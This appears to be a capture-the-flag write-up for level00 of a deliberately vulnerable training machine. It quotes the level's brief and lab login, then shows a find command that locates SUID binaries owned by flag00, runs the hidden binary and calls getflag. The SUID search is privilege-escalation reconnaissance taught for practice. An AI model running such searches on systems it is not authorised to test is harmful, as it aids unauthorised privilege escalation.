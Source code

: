 # Level 00

This level requires you to find a Set User ID program that will run as the `flag00` account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.

Alternatively, look at the find man page.

To access this level, log in as level00 with the password of level00.

## Source code

There is no source code available for this level.

## Writeup

Let's find all binary of flag00 account with SUID:
```bash
find / -user flag00 -perm +4000 2> /dev/null
```

There are two binary:
```
/bin/.../flag00
/rofs/bin/.../flag00
```

Execute the first:
```
/bin/.../flag00
```

This is the output:
```
Congrats, now run getflag to get your flag!
```

Run `getflag` command:
```bash
getflag
```

Output:
```
You have successfully executed getflag on a target account
```